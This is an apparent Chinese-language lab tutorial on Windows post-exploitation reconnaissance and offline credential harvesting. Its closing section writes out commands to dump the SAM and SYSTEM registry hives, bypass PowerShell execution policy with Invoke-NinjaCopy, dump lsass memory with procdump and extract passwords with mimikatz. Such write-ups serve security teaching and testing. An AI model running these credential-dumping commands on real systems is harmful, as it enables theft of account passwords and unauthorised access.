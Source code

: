 # Windows下信息收集

### Windows下信息收集实验 <a id="windows-"></a>

#### 基础信息收集 <a id="-"></a>

**使用systeminfo命令查看操作系统版本、架构、补丁情况**

![](https://p408.ssl.qhimgs4.com/t01687daadb35f5db80.png)

**Windows-Exploit-Suggester-master**

-u 参数升级并将数据库下载至本地：

![](https://p408.ssl.qhimgs4.com/t01a6092dd640a991b8.png)

-i 参数指定系统信息文件；-d 参数指定本地数据库文件，提示需安装xlrd读取Excel文件：

![](https://p408.ssl.qhimgs4.com/t01457fbff6a069205f.png)

pip安装模块：

![](https://p408.ssl.qhimgs4.com/t01eed3cd88b2ba9ad7.png)

再次运行，成功：

![](https://p408.ssl.qhimgs4.com/t01d40fcc7fd6481af2.png)

**使用Whomai、net user查看用户信息**

![](https://p408.ssl.qhimgs4.com/t014a572de2cf6c8e0a.png)

![](https://p408.ssl.qhimgs4.com/t01320b19e6e6c614d2.png)

![](https://p408.ssl.qhimgs4.com/t0117eed146b3e1c27c.png)

**使用net localgroup查看本地用户组**

![](https://p408.ssl.qhimgs4.com/t01d9003f2975c62e0b.png)

**使用net localgroup “组名”来查看用户组信息**

![](https://p408.ssl.qhimgs4.com/t0167601506694a0187.png)

**使用net accounts查看密码策略**

![](https://p408.ssl.qhimgs4.com/t01914afcc3a3181c9a.png)

**使用query user查看最近登录信息**

![](https://p408.ssl.qhimgs4.com/t01315c2fd98edfeff0.png)

**使用ipconfig查看网络适配器信息**

![](https://p408.ssl.qhimgs4.com/t01200aaececb24f420.png)

使用ipconfig /all查看所有适配器

使用ipconfig /displaydns 查看dns缓存

使用net use 查看网络连接

使用netstat查看网络服务

![](https://p408.ssl.qhimgs4.com/t016b80b4507243d5d3.png)

**使用route　print 查看路由信息**

![](https://p408.ssl.qhimgs4.com/t0195e974ed23014899.png)

**使用arp -a 查看arp缓存**

![](https://p408.ssl.qhimgs4.com/t01a81d62ba65f13cd6.png)

#### 离线凭证收集 <a id="-"></a>

**导出sam数据库中的密码**

方法1：以管理员权限运行cmd,输入以下命令

```text
reg save hklm\sam c:\sam.hive 
reg save hklm\system c:\system.hive 
```

方法2：使用powershell

```text
powershell -exec bypass
Import-Module .\invoke-ninjacopy.ps1
Invoke-NinjaCopy -Path C:\Windows\System32\config\SAM -LocalDestination .\sam.hive
Invoke-NinjaCopy -Path   C:\Windows\System32\config\SYSTEM -LocalDestination .\system.hive
```

将生成的sam.hive与system.hive转至本地，使用saminside或cain导入

saminside

![](https://p408.ssl.qhimgs4.com/t013a04f0ccfa3830a4.png)

结果如下

![](https://p408.ssl.qhimgs4.com/t01dc98d7a4ce93a67f.png)

cain

![](https://p408.ssl.qhimgs4.com/t012cdaf29e91e807f2.png)

离线提取1sass进程

 Vista及以上的系统可以打开任务管理器，选择显示所有用户的进程，找到1sass进程后右键创建转储文件 procdump.exe procdump.exe-ma lsass.exe lsass.dmp获取到内存转储文件后，就可以使用mimikatz来提取密码。这里需要注意的是运行mimikatz平台架构要与进行转储的系统兼容。命令如下： sekurlsa:：minidump lsass.dmp sekurlsa:：logonpasswords

